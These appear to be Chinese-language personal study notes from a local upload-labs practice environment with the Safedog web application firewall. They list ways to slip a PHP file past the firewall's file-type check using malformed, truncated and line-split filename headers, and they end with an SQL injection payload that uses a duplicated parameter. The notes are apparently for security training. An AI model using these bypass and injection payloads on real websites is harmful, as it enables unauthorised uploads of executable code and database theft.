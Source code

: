 
（安全狗）环境准备
`cd C:\Users\86188\Desktop\tool\upload-labs-env\Apache\bi`
`httpd.exe -k install -n apache2.0`
`#如果要删除`
`sc delete apache2.0`或者删除\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\apache2.0，重启电脑即可

# waf绕过
Pass-02(文件类型验证)
绕过方式：
1、垃圾数据溢出：就在验证的字段里面写很多垃圾数据
![[Pasted image 20241103192843.png]]


2、符号编译：就是使用不正确的的符号来绕过
比如
Content-Disposition: form-data;name="upload_file"; filename="info.php;
Content-Type: image/png


3、数据截断：分号代表一个语句的结束
Content-Disposition: form-data;name="upload_file";filename="x.jpg;.php";
Content-Type: image/png


4、换行
Content-Disposition: form-data;name="upload_file";
filename="
a
.
p
h
p";
Content-Type: image/png



5、fuzz(模糊测试)
fuzzdb-master.zip
fuzzDicts-master.zip



SQL绕过
`http://localhost/bbs/showmessage.php?id=1/**&id=-1 union select 1,2,3,database()%23*/`